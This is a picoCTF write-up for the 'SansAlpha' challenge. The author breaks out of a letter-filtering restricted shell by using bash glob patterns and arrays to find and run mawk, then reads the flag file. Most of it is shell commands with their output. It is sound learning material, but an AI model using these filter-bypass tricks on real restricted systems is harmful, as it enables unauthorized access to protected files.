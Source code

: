 # SansAlpha #

https://play.picoctf.org/events/73/challenges/challenge/436?category=5&page=1

## Description ##

The Multiverse is within your grasp! Unfortunately, the server that
contains the secrets of the multiverse is in a universe where
keyboards only have numbers and (most) symbols.

Additional details will be available after launching your challenge
instance.

## Hints ##

Where can you get some letters?

## Solution ##

After connecting to the instance, I face a prompt

	SansAlpha$
	
Entering any command containing a letter causes a response

	SansAlpha: Unknown character detected

Ending the session with `CTRL+D` leads to

	Traceback (most recent call last):
	  File "/usr/local/sansalpha.py", line 12, in <module>
		if user_in[-1] != "\n":
	IndexError: string index out of range
	Connection to mimas.picoctf.net closed.

So there seems to be a Python script that filters certain
letters. After some testing it turns out that all letters and the
backslash are filtered. 

Approaches not working for me:

* Escaping from the Python script
* Uploading a file with `scp`
* Executing other commands directly w/o a terminal

Some exploration of the closer environment:

```
SansAlpha$ .[!.]*
bash: .bashrc: command not found

SansAlpha$ *
bash: blargh: command not found

SansAlpha$ ./*
bash: ./blargh: Is a directory

SansAlpha$ ../*
bash: ../ctf-player: Is a directory

SansAlpha$ ~
bash: /home/ctf-player: Is a directory

SansAlpha$ */*
bash: blargh/flag.txt: Permission denied

SansAlpha$ _1=(*/*)
SansAlpha$ ${_1[0]}
bash: blargh/flag.txt: Permission denied

SansAlpha$ ${_1[1]}
bash: blargh/on-alpha-9.txt: Permission denied

SansAlpha$ _1=(*)
SansAlpha$ ${_1[0]}
bash: blargh: command not found

SansAlpha$ ${_1[1]}
bash: on-calastran.txt: command not found

SansAlpha$ ${_1[2]}
```

So what can we execute? Let's look for something like `cat` to print
the flag to the screen:

```
SansAlpha$ _1=(/*/???)
SansAlpha$ ${_1[0]}
apt 2.0.6 (amd64)
Usage: apt [options] command

apt is a commandline package manager ...
```

Ok. Just need to iterate through `_1` now to find `cat`.

```
SansAlpha$ ${_1[1]}
Usage: mawk [Options] [Program] [file ...]

Program:
    The -f option value is the name of a file ...
```

Seems like `awk` links to `mawk`. Ok, also useful. Let's continue:

```
SansAlpha$ ${_1[2]}
c++: fatal error: no input files
compilation terminated.

SansAlpha$ ${_1[3]}
gcc: fatal error: no input files
compilation terminated.

SansAlpha$ ${_1[4]}
gcc: fatal error: no input files
compilation terminated.

SansAlpha$ ${_1[5]}
SansAlpha$ ${_1[6]}
${_1[6]}

SansAlpha$ ${_1[7]}
${_1[7]}
```

Seems like there is no `cat` in `/bin`. Ok, `awk` should work, too. It
is not possible to use

``` bash
awk '{ print }' file
```

but there is a shorthand for `print:

``` bash
awk '1' file
```

The command 

``` bash
SansAlpha$ _1=(/*/???)
SansAlpha$ _2=(*/*.*)
SansAlpha$ ${_1[1]} '1' ${_2[0]}
return 0 picoCTF{...}
```

That one was nice!
